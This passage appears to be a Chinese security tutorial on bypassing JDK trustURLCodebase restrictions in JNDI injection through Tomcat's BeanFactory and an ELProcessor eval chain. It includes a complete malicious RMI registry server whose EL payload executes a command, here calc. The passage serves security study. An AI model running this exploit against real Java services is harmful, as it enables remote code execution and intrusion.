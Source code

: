 服务端代码可以参考marshalsec，然后添加对应属性javaSerializedData为我们的Gadgets序列化的数据即可

```java
e.addAttribute("javaSerializedData", GadgetsData);
```

#### 通过加载本地类

之前在分析RMI的时候提到过在加载远程类之前,会先加载本地类

在JDK 11.0.1、8u191、7u201、6u211之后之后com.sun.jndi.ldap.object.trustURLCodebase 属性的默认值为false，我们就不能再从远程的Codebase加载恶意的Factory类了,那假如加载的是本地类呢

需要注意的，该工厂类型必须实现**javax.naming.spi.ObjectFactory** 接口，因为在javax.naming.spi.NamingManager#getObjectFactoryFromReference最后的return语句对工厂类的实例对象进行了类型转换return (clas != null) ? (ObjectFactory) clas.newInstance() : null;；并且该工厂类至少存在一个 getObjectInstance() 方法才能在前面调用

（[这篇文章](https://xz.aliyun.com/t/[https://www.veracode.com/blog/research/exploiting-jndi-injections-java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java))的作者找到可利用的类为：**org.apache.naming.factory.BeanFactory**，并且该类存在于Tomcat依赖包中，所以利用范围还是比较广泛的。

添加如下依赖：

```java
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>8.5.0</version>
</dependency>

<dependency>
    <groupId>org.apache.el</groupId>
    <artifactId>com.springsource.org.apache.el</artifactId>
    <version>7.0.26</version>
</dependency>
```

服务端代码参考自[这篇文章](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)

```java
package JNDI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class jndi_sever_rmi_local {

    public static void main(String[] args) throws Exception{

        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);

        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));

        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);

    }
}
```